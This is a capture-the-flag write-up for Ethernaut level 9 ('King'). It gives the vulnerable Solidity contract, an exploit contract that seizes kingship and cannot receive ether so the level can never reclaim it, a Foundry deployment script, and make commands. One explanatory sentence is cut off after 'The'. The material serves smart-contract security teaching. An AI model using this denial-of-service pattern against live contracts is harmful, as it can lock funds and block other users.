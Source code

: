 # Level 9 - King ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/9" %}

### Level Setup

{% hint style="info" %}
The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/King.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```
{% endcode %}

### Exploit

The

1.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-9

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-9

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level9.sol" %}

{% code title="src/Level9.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {
    function prize() external view returns (uint256);
}

// ================================================================
// │                         LEVEL 9 - KING                       │
// ================================================================
contract ClaimKing {
    constructor(address _targetContractAddress) payable {
        IKing king = IKing(_targetContractAddress);
        uint256 attackValue = king.prize() + 1 wei;
        if (attackValue > address(this).balance) revert("Not enough funds");

        // Attack contract
        (bool success,) = _targetContractAddress.call{value: attackValue}("");
        if (!success) revert("Call failed");

        // Refund remaining balance
        (bool refundSuccess,) = address(msg.sender).call{value: address(this).balance}("");
        if (!refundSuccess) revert("Refund call failed");
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level9.s.sol" %}

{% code title="script/Level9.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {ClaimKing} from "../src/Level9.sol";

// ================================================================
// │                         LEVEL 9 - KING                       │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        new ClaimKing{value: 1 ether}(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
{% endhint %}

### Notes

* Executing everything in the constructor removes points of failure e.g. if the prize was calculated before sending, then the transaction was pending for a few blocks, it would no longer be the correct value. So it's better to calculate as much as possible on chain, even if it costs more gas that off-chain calculations, as it's more important that it actually goes through (and the check can be right at the start to minimize wasted gas if it does revert)
